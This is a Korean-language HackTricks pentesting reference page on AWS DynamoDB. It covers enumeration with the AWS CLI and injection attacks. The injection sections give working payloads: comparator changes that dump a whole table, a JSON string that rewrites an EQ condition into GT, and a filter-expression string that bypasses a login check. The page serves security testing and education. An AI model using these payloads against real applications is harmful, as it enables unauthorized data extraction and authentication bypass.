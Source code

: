 # AWS - DynamoDB Enum

<details>

<summary><strong>htARTE (HackTricks AWS Red Team Expert)</strong>를 통해 AWS 해킹을 처음부터 전문가까지 배워보세요<strong>!</strong></summary>

HackTricks를 지원하는 다른 방법:

* **회사를 HackTricks에서 광고하거나 HackTricks를 PDF로 다운로드**하려면 [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)를 확인하세요!
* [**공식 PEASS & HackTricks 스웨그**](https://peass.creator-spring.com)를 얻으세요.
* [**The PEASS Family**](https://opensea.io/collection/the-peass-family)를 발견하세요. 독점적인 [**NFTs**](https://opensea.io/collection/the-peass-family) 컬렉션입니다.
* 💬 [**Discord 그룹**](https://discord.gg/hRep4RUj7f) 또는 [**텔레그램 그룹**](https://t.me/peass)에 **참여**하거나 **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**를** **팔로우**하세요.
* **HackTricks**와 [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github 저장소에 **PR을 제출하여** 여러분의 해킹 기술을 공유하세요.

</details>

## DynamoDB

### 기본 정보

Amazon DynamoDB는 AWS에서 **완전히 관리되는, 서버리스, 키-값 NoSQL 데이터베이스**로 제공되며, 크기에 관계없이 고성능 애플리케이션을 구동하기 위해 맞춤 설정되었습니다. 이 서비스는 내장된 보안 기능, 중단 없는 백업, 여러 지역에 대한 자동 복제, 통합 인메모리 캐싱 및 편리한 데이터 내보내기 유틸리티와 같은 강력한 기능을 보장합니다.

DynamoDB의 경우 전통적인 데이터베이스를 구축하는 대신 **테이블을 생성**합니다. 각 테이블은 **테이블의 기본 키**의 필수 구성 요소인 **파티션 키**의 지정을 요구합니다. 이 파티션 키는 본질적으로 **해시 값**으로, 항목의 검색 및 데이터의 여러 호스트 간 분산에 중요한 역할을 합니다. 이 분산은 데이터베이스의 확장성과 가용성을 유지하는 데 중요합니다. 또한 데이터 조직을 더욱 세분화하기 위해 **정렬 키**를 통합할 수 있는 옵션이 있습니다.

### 암호화

기본적으로 DynamoDB는 **Amazon DynamoDB에 속하는 KMS 키**를 사용하며, 적어도 계정에 속하는 AWS 관리 키가 아닙니다.

<figure><img src="https://lh4.googleusercontent.com/JjtNS7aA-_GRMgZb4v93jWEQJi6DQdUPq0FEpzZPdeyCeNoG05p0NJiV9Zs-ULs_-Tfjmx0W1ZgsE2Ui2ljo7D-1a87Xny-gpLVQO0XmXdFoph9ci1RepbVNwaCe9oPruEZSEDxGTxF5dIv6pW1WpT6kWA=s2048" alt=""><figcaption></figcaption></figure>

### 백업 및 S3로 내보내기

테이블 백업을 **일정에 따라 생성**하거나 **요청에 따라 생성**할 수 있습니다. 또한 테이블에 대한 **시점 복구 (PITR)를 활성화**할 수도 있습니다. 시점 복구는 DynamoDB 데이터를 **35일 동안 지속적으로 백업**하여 우발적인 쓰기 또는 삭제 작업으로부터 보호하는 데 도움을 줍니다.

또한 테이블의 데이터를 **S3로 내보낼 수**도 있지만, 테이블은 **PITR이 활성화**되어 있어야 합니다.

### GUI

[DynamoDB Local](https://aws.amazon.com/blogs/aws/dynamodb-local-for-desktop-development/), [dynalite](https://github.com/mhart/dynalite), [localstack](https://github.com/localstack/localstack) 등과 같은 로컬 Dynamo 서비스를 위한 GUI인 [https://github.com/aaronshaf/dynamodb-admin](https://github.com/aaronshaf/dynamodb-admin)이 유용할 수 있습니다.

### 열거

```bash
# Tables
aws dynamodb list-tables
aws dynamodb describe-table --table-name <t_name> #Get metadata info
## The primary key and sort key will appear inside the KeySchema field

#Check if point in time recovery is enabled
aws dynamodb describe-continuous-backups \
--table-name tablename

# Backups
aws dynamodb list-backups
aws dynamodb describe-backup --backup-arn <arn>
aws dynamodb describe-continuous-backups --table-name <t_name>

# Global tables
aws dynamodb list-global-tables
aws dynamodb describe-global-table --global-table-name <name>

# Exports
aws dynamodb list-exports
aws dynamodb describe-export --export-arn <arn>

# Misc
aws dynamodb describe-endpoints #Dynamodb endpoints
```

### 인증되지 않은 액세스

{% content-ref url="../aws-unauthenticated-enum-access/aws-dynamodb-unauthenticated-access.md" %}
[aws-dynamodb-unauthenticated-access.md](../aws-unauthenticated-enum-access/aws-dynamodb-unauthenticated-access.md)
{% endcontent-ref %}

### 권한 상승

{% content-ref url="../aws-privilege-escalation/aws-dynamodb-privesc.md" %}
[aws-dynamodb-privesc.md](../aws-privilege-escalation/aws-dynamodb-privesc.md)
{% endcontent-ref %}

### 사후 침투

{% content-ref url="../aws-post-exploitation/aws-dynamodb-post-exploitation.md" %}
[aws-dynamodb-post-exploitation.md](../aws-post-exploitation/aws-dynamodb-post-exploitation.md)
{% endcontent-ref %}

### 지속성

{% content-ref url="../aws-persistence/aws-dynamodb-persistence.md" %}
[aws-dynamodb-persistence.md](../aws-persistence/aws-dynamodb-persistence.md)
{% endcontent-ref %}

## DynamoDB 인젝션

### SQL 인젝션

**SQL 구문**을 사용하여 DynamoDB 데이터에 액세스하는 방법이 있으므로, 일반적인 **SQL 인젝션도 가능**합니다.

{% embed url="https://book.hacktricks.xyz/pentesting-web/sql-injection" %}

### NoSQL 인젝션

DynamoDB에서는 일반적인 NoSQL 인젝션과 마찬가지로 데이터를 검색하기 위해 다양한 **조건**을 사용할 수 있습니다. 데이터를 검색하기 위해 **추가 조건을 연결**할 수 있다면 숨겨진 데이터를 얻거나 전체 테이블을 덤프할 수 있습니다.\
DynamoDB에서 지원하는 조건은 다음에서 확인할 수 있습니다: [https://docs.aws.amazon.com/amazondynamodb/latest/APIReference/API\_Condition.html](https://docs.aws.amazon.com/amazondynamodb/latest/APIReference/API\_Condition.html)

데이터가 **`query`** 또는 \*\*`scan`\*\*을 통해 액세스되는 경우 **다른 조건**이 지원됩니다.

{% hint style="info" %}
실제로 **Query** 작업은 작동하기 위해 **기본 키에서 "EQ" (equals) 조건**을 지정해야 하므로 NoSQL 인젝션에 대한 취약성이 훨씬 **낮아집니다** (또한 작업이 매우 제한됩니다).
{% endhint %}

비교되는 **비교**를 변경하거나 새로운 비교를 추가할 수 있다면 더 많은 데이터를 검색할 수 있습니다.

```bash
# Comparators to dump the database
"NE": "a123" #Get everything that doesn't equal "a123"
"NOT_CONTAINS": "a123" #What you think
"GT": " " #All strings are greater than a space
```

{% embed url="https://book.hacktricks.xyz/pentesting-web/nosql-injection" %}

### Raw Json injection

**DynamoDB**는 DB 내부에서 데이터를 검색하기 위해 **Json** 객체를 허용합니다. 검색에 전송된 json 객체에 쓸 수 있다는 것을 발견하면, DB 덤프를 생성하여 모든 내용을 얻을 수 있습니다.

예를 들어, 다음과 같은 요청에 주입하는 경우:

{% code overflow="wrap" %}
```bash
'{"Id": {"ComparisonOperator": "EQ","AttributeValueList": [{"N": "' + user_input + '"}]}}'
```
{% endcode %}

공격자는 다음과 같은 것을 주입할 수 있습니다:

`1000"}],"ComparisonOperator": "GT","AttributeValueList": [{"N": "0`

"EQ" 조건을 수정하여 ID 1000을 검색한 다음, 0보다 큰 Id 문자열을 가진 모든 데이터를 찾을 수 있습니다.

### :property 주입

일부 SDK는 수행할 필터링을 나타내는 문자열을 사용할 수 있습니다:

{% code overflow="wrap" %}
```java
new ScanSpec().withProjectionExpression("UserName").withFilterExpression(user_input+" = :username and Password = :password").withValueMap(valueMap)
```
{% endcode %}

DynamoDB에서 항목을 스캔하는 동안 **필터 표현식**에서 속성 **값을 대체**하기 위해 검색을 수행할 때, 토큰은 **`:`** 문자로 시작해야 함을 알아야 합니다. 이러한 토큰은 실행 시 실제 **속성 값으로 대체**됩니다.

따라서, 이전과 같은 로그인은 다음과 같이 우회될 수 있습니다:

```bash
:username = :username or :username
# This will generate the query:
# :username = :username or :username = :username and Password = :password
# which is always true
```

<details>

<summary><strong>htARTE (HackTricks AWS Red Team Expert)</strong>를 통해 AWS 해킹을 처음부터 전문가까지 배워보세요<strong>!</strong></summary>

HackTricks를 지원하는 다른 방법:

* **회사를 HackTricks에서 광고하거나 HackTricks를 PDF로 다운로드**하려면 [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)를 확인하세요!
* [**공식 PEASS & HackTricks 스웨그**](https://peass.creator-spring.com)를 얻으세요.
* [**The PEASS Family**](https://opensea.io/collection/the-peass-family)를 발견하세요. 독점적인 [**NFTs**](https://opensea.io/collection/the-peass-family) 컬렉션입니다.
* 💬 [**Discord 그룹**](https://discord.gg/hRep4RUj7f) 또는 [**텔레그램 그룹**](https://t.me/peass)에 **참여**하거나 **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)를 **팔로우**하세요.
* **Hacking 트릭을 공유하려면** [**HackTricks**](https://github.com/carlospolop/hacktricks) 및 [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github 저장소에 PR을 제출하세요.

</details>

